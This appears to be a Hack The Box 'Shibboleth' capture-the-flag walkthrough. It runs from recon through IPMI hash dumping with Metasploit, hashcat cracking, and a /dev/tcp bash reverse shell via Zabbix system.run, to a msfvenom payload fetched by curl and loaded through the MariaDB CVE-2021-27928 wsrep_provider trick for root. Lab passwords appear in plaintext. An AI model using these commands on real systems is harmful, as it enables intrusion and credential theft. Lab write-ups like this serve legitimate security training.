 # HTB - Shibboleth Walkthrough 🥷

> _“Don’t half-ass it. When you stop midway, you lose your momentum and make dumb mistakes.”_



### 🔍 Initial Recon

#### 🔎 TCP Scan

Only one port stood tall:

```
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

So it’s likely a web-based entry point — either a web shell, RCE, or hopefully SSH later on (I like having a stable shell, sue me).

🔎 UDP Scan

```
623/udp open  asf-rmcp
```

Yup. That’s IPMI. A classic hole in many networks. Tucking that away for later…

### 🌐 Subdomain Discovery

```
ffuf -u http://shibboleth.htb -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18
```

Found:

```
monitor
monitoring
zabbix
```

All routed to the same interface/site. Interesting. Burp showed some app behavior, but nothing juicy yet.

### 🔁 Circle Back to UDP (623/IPMI)

Ref: [HackTricks on IPMI](https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

Used Metasploit to pull potential hashes:

```
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.10.11.124
run
```

💥 Got a juicy hash:

```
Administrator:914fade8820100000830a3be05dcbec9310a8c18dfb7589f1e3de87662a5ca64ee24ff833aa0e9a1a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:bda78a132c0e95bc35fd085fbb136ac6dc62c762
```

Saved it and cracked it:

```
echo "<hash>" > hash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

### 🔐 Zabbix Login

Tried creds on Zabbix from subdomain — and it worked.



***

### 🖥️ Reverse Shell via Zabbix

To execute a reverse shell, used Zabbix's `system.run[]` item:

```
echo "bash -i >& /dev/tcp/10.10.16.8/4444 0>&1" | base64
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

⚠️ _Without `nowait`, the session died in \~4 seconds. Annoying little gotcha._

Made the shell stable with:

```
script /dev/null -c bash
```

### 🔄 Priv Esc - Switching Users

Poked around. Found a second user: `ipmi-svc`. Tried the same password. It worked.

```
su ipmi-svc
# Password: ilovepumkinpie1

```

### 🧪 Enumeration & Dead Ends

* Checked `/etc/zabbix/zabbix_server.conf` for DB creds.
* Looked at sudo perms.
* Dug through config files.
* Nada. No root path in sight.\
  &#xNAN;_(Paused here because guests showed up. Came back later.)_



### 🤯 Moment of Clarity: MariaDB Version Exploit (CVE-2021-27928)

Should’ve thought of this sooner. It’s literally part of what I do at work — check SBOMs and versions.

Saw MySQL version was **10.3.25** → vulnerable.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4445 -f elf-so -o rev.so    
```

```
nc -lvnp 4445
```



```
curl http://10.10.16.8/rev.so --output rev.so
```



```
mysql -u zabbix -pbloooarskybluh
```

Then triggered:

```
SET GLOBAL wsrep_provider="/home/ipmi-svc/rev.so";
```

* and you get a shell as root

🔥 **ROOT SHELL DROPPED.**

### 🧠 Lessons Learned

* Don’t half-ass walkthroughs — finish what you start. Pausing mid-box kills flow and costs you time.
* IPMI still sucks.
* Zabbix + misconfigs = pwnage.





